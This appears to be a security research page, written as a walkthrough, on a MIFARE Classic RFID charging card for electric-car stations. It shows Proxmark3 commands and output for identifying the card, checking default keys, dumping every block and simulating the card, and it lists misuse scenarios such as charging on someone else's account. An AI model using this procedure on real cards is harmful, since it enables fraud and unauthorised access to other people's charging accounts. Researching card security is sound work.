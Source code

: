```yaml
---
description: This post is about a specific charging card to unlock car charging stations.
---
```


# RFID Charging card electric car

{% hint style="warning" %}
This page is still undercontruction
{% endhint %}

{% hint style="info" %}
[More information about RFID on the dedicated "Technology" page.](../technology-1/researched-technologies/untitled.md)
{% endhint %}

## Research: RFID Charging Card

#### What type of card are we facing?

To start off we will be checking the type of card. This will be done using the Proxmark 3 running on the Iceman repository. The following command will pull some basic information from the card. From there we will be able to evaluate the options.

```text
[usb] pm3 --> hf search
[=] Checking for known tags...
[|] Searching for ISO14443-A tag...
[+]  UID : XX XX XX XX XX XX XX
[+] ATQA : 00 44
[+]  SAK : 08 [2]
[+] TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1 | 1k Ev1
[+] MANUFACTURER : NXP Semiconductors Germany
[=] proprietary non iso14443-4 card found, RATS not supported
[+] Prng detection: HARD

[+] Valid ISO14443-A tag found
```

As you can see we've got a NXP MIFARE CLASSIC 1K card. Yet there's no card known to have the same ATQ and SAK values and we're pretty sure it's not a MIFARE CLASSIC 1k. The UID also suggests this isn't a card with 4 bytes. The information shown below is publicly available from nfc-tools.org.

![http://nfc-tools.org/index.php/ISO14443A](../.gitbook/assets/image.png)

While it's unclear what specific kind of card we've got on our hands it might still be possible to retrieve some data from it. Let's assume it's a Classic 1k card. 

#### Retrieving data

The data on the card is behind some sort of encryption. Most of the time these cards have default keys which uncovers the data. The following command will try default keys and dump the found keys to a binary file to use later on.

```text
[usb] pm3 --> hf mf fchk 1 d
[+] No key specified, trying default keys
[ 0] xxxxxxxxxxxx (Data has been hidden)
[ 1] xxxxxxxxxxxx
[ 2] xxxxxxxxxxxx
[ 3] xxxxxxxxxxxx
[ 4] xxxxxxxxxxxx
[ 5] xxxxxxxxxxxx
[ 6] xxxxxxxxxxxx
[ 7] xxxxxxxxxxxx
[ 8] xxxxxxxxxxxx
[ 9] xxxxxxxxxxxx
[10] xxxxxxxxxxxx
[11] xxxxxxxxxxxx
[12] xxxxxxxxxxxx
[13] xxxxxxxxxxxx
[14] xxxxxxxxxxxx
[15] xxxxxxxxxxxx
[16] xxxxxxxxxxxx
[17] xxxxxxxxxxxx
[18] xxxxxxxxxxxx
[19] xxxxxxxxxxxx
[20] xxxxxxxxxxxx
[21] xxxxxxxxxxxx
[22] xxxxxxxxxxxx
[+] Running strategy 1

[+] Chunk: 0.4s | found 32/32 keys (23)

[+] Time in checkkeys (fast):  0.4s


[=] found keys:
|---|----------------|---|----------------|---|
|sec| key A          |res| key B          |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
[=] ( 0 :Failed / 1 :Success)
[+] Generating binary key file
[+] Found keys have been dumped to hf-mf-XXXXXXXXXXXXXX-key-10.bin --> 0xffffffffffff has been inserted for unknown keys.
```

Succes! This means we're able to succesfully access the data on the card. To dump the actual data \(not just the keys\) into a file we should use the previously retrieved keys to access the data and write the data onto a .eml file.

```text
[usb] pm3 --> hf mf dump
[=] Reading sector access bits...
................
[+] Finished reading sector access bits
[=] Dumping all blocks from card...
[+] successfully read block  0 of sector  0.
[+] successfully read block  1 of sector  0.
[+] successfully read block  2 of sector  0.
[+] successfully read block  3 of sector  0.
[+] successfully read block  0 of sector  1.
...

...
[+] successfully read block  3 of sector 15.
[+] time: 17 seconds


[+] Succeeded in dumping all blocks

[+] saved 1024 bytes to binary file hf-mf-XXXXXXXXXXXXXX-data-4.bin
[+] saved 64 blocks to text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] saved to json file hf-mf-XXXXXXXXXXXXXX-data-4.json
```

### Exploiting the data

There's serveral ways to use the data retrieved above. Possible scenario's could be:

* Altering data to charge on someone else's account
* Cloning the exact card from the data onto a blank pass
* Simulating the card using the proxmark3

#### Altering data

Altering data without the consent of the service provider would be unethical thus we've not tested or looked into any of the possible attack scenario's using altered data.

#### Cloning

We've tried to clone the card onto a blank pass. Unfortunately we overlooked the part where this is a pass with 7 bytes of data, this killed our blank pass and left us without resources to further look into cloning. It could be very well be possible if the right blank card is used.

#### Simulating using Proxmark3

The Proxmark3 has an option to simulate the earlier retrieved data. The proxmark could function as the charging pass. To accomplish this follow my steps below.

First we will be loading the data from the eml file into memory.

```text
[usb] pm3 --> hf mf eload hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] loaded 1024 bytes from text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[=] Copying to emulator memory
................................................................

[+] Loaded 64 blocks from file: hf-mf-XXXXXXXXXXXXXX-data-4.eml
```

After which we just call the following command and we're good to go.

```text
[usb] pm3 --> hf mf sim
[=] Mifare   |  UID  N/A
[=] Options [ numreads: 0, flags: 16 (0x10) ]
#db# 7B UID: XX XX XX XX XX XX XX
#db# ATQA  : 00 44
#db# SAK   : 88
```

{% hint style="danger" %}
We have not tested the simulated card in a real environment.
{% endhint %}



